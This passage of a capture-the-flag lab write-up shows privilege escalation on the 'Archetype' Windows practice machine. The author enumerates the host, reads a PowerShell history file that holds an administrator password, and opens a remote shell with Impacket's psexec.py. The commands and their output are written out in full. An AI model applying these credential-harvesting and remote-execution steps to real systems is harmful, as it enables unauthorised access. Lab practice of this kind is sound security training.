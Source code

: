 ```ps
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.27
                                 [02]: fe80::cc9b:ff1e:4d8a:e751
                                 [03]: dead:beef::cc9b:ff1e:4d8a:e751
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
netconfig Workstation
net config Workstation
Computer name                        \\ARCHETYPE
Full Computer name                   Archetype
User name                            sql_svc

Workstation active on                
        NetBT_Tcpip_{F9786909-146A-4450-84CE-B06994DB4499} (005056B90510)

Software version                     Windows Server 2019 Standard

Workstation domain                   WORKGROUP
Logon domain                         ARCHETYPE

COM Open Timeout (sec)               0
COM Send Count (byte)                16
COM Send Timeout (msec)              250
The command completed successfully.

net users

User accounts for \\ARCHETYPE

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sql_svc                  WDAGUtilityAccount       
The command completed successfully.
```

But in fact, I found another excellent-looking article [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#powershell-history) describing some more privilege escalation.  I try running:
```ps
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```
So it looks like there is a user called `administrator` with potentially a password there: `MEGACORP_4dm1in!!`...  Given this, it looks like `backups` has been mapped using the local admin credentials.

Let's try logging into the system again, using another one of Impacket's tools: `psexec.py`;
```bash
$ python3 git-workspace/impacket/examples/psexec.py administrator@archetype
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on archetype.....
[*] Found writable share ADMIN$
[*] Uploading file NxYETPZE.exe
[*] Opening SVCManager on archetype.....
[*] Creating service bzkq on archetype.....
[*] Starting service bzkq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
```
